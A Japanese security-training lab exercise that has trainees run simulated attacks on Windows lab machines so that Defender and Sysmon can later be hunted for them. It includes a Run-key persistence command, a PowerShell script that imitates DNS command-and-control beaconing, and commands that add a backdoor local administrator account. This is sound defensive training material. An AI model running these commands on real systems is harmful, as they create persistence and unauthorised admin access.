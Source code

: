 ﻿# モジュール 7 - ラボ 1 - 演習 5 - 攻撃を実施する

### タスク 1: Defender for Endpoint にほって保護された Windows を攻撃する

1. WIN1 にログインしてください。

2. コマンドプロンプトを管理者モードで起動します。

3. 以下のコマンドを実行します。

```Command
cd \
mkdir temp
cd temp
```

4. 攻撃 1 - レジストリキーの追加による永続性。

以下のコマンドを実行します。

```Command
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

5. 攻撃 2  - ドメインネームサービス / コマンド＆コントロール 

この攻撃は、コマンド＆コントロール （C2） 通信をシミュレートします。

Notepad.exe を起動し、以下のスクリプトを貼り付けて **c:\temp\c2.ps1** というファイル名で保存してください。拡張子に .txt が付かないようにしてください。

```PowerShell


param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)


$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)

$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        
        $x2 = 1

    }
    else
    {
        $x2 = $x2 + 1
    }
    
    if ($x3 -eq 7 )
    {

        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

        $x3 = 1
        
    }
    else
    {
        $x3 = $x3 + 1
    }


    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```

以下のコマンドを実行してください。   

```Command
powershell
.\c2.ps1
```

**Note**: 多くの名前解決エラーが表示されるはずです。これは期待通りの動作です。コマンドプロンプトは閉じずに、このままにしておいてください。このコマンドを、何時間か実行してログ・エントリを生成する必要があります。このスクリプトの実行中に、次のタスクや次の演習に進むことができます。このタスクで作成したデータは、後でThreat Huntingラボで使用します。このプロセスでは、相当量のデータや処理を作成することはありません。

### タスク 2: Sysmon が構成された Windows を攻撃する

1. WIN2 にログインしてください。

2. コマンドプロンプトを管理者で起動します。

3. 以下のコマンドを実行します。

```Command
cd \
mkdir temp
cd temp
```

4. 攻撃 1

以下のコマンドをコマンドプロンプトで実行してください。

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

5. 攻撃 2

以下のコマンドをコマンドプロンプトで実行してください。

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

# 演習 6 に進みます。
